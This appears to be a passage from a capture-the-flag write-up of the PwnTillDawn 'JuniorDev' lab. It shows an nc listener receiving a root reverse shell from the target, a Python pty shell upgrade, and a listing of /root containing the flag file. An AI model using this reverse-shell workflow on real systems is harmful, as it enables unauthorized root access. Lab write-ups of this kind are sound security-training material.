 ![Untitled](/Vulnhub-Files/img/JuniorDev/Untitled%209.png)

I tried reverse shell and I got it in response →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.38]
└─$ nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.66.67.202] from (UNKNOWN) [10.150.150.38] 56418
/bin/sh: 0: cant access tty; job control turned off
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@dev1:~/mycalc# whoami
whoami
root
root@dev1:~/mycalc# id
id
uid=0(root) gid=0(root) groups=0(root)
root@dev1:~/mycalc# cd /root
cd /root
root@dev1:~# ls -al
ls -al
total 40
drwx------  7 root root 4096 Jun 15 18:53 .
drwxr-xr-x 18 root root 4096 Apr 13 11:06 ..
-rw-------  1 root root    0 Apr 20 12:07 .bash_history
-rw-r--r--  1 root root  585 Apr 20 11:47 .bashrc
drwx------  3 root root 4096 Apr 17 12:32 .cache
-r--------  1 root root   41 Apr 17 16:23 FLAG72.txt
drwx------  3 root root 4096 Apr 13 13:41 .gnupg
drwxr-xr-x  3 root root 4096 Apr 13 11:23 .local
drwxr-xr-x  5 root root 4096 Jun 15 11:00 mycalc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jun  8 16:13 .ssh
```